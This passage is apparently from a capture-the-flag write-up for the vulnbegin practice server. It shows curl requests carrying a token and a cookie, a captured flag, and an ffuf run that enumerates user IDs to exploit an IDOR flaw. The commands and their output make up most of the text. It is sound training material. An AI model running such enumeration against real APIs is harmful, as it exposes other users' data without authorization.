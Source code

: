 ```
:: Filter           : Response status: 404
________________________________________________

robots.txt              [Status: 200, Size: 42, Words: 3, Lines: 2]
user                    [Status: 200, Size: 89, Words: 1, Lines: 1]
```

We can access the `user` endpoint by running the following:
`curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" http://server.vulnbegin.co.uk/user`
```
{"id":27,"endpoint":"\/user\/27"}
```

It appears that the API is returning an endpoint for us to access, so I continue with
`curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" http://server.vulnbegin.co.uk/user/27`
```
{"id":27,"username":"vulnbegin_website","endpoint":"\/user\/27\/info"}
```
And
`curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" http://server.vulnbegin.co.uk/user/27/info`
```
{"id":27,"username":"vulnbegin_website","description":"User for the main website","flag":"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]"}
```
Here, we can see another flag
### API IDOR

Because it appears that users are referenced by IDs, we can fuzz for that:
`ffuf -u http://server.vulnbegin.co.uk/user/FUZZ/info -w /usr/share/wordlists/seclists/Fuzzing/3-digits-000-999.txt -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" -t 1 -p 0.1`
```
________________________________________________

 :: Method           : GET
 :: URL              : http://server.vulnbegin.co.uk/user/FUZZ/info
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/3-digits-000-999.txt
 :: Header           : X-Token: 492E64385D3779BC5F040E2B19D67742
 :: Header           : Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSXdibmR1TW1neGVpSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiI5Mzc0NzRmZjhlNTYwZTk0MjBhYWUyM2FiZTM0OWIzYiJ9
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Delay            : 0.10 seconds
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

005                     [Status: 200, Size: 120, Words: 4, Lines: 1]
027                     [Status: 200, Size: 138, Words: 5, Lines: 1]
```
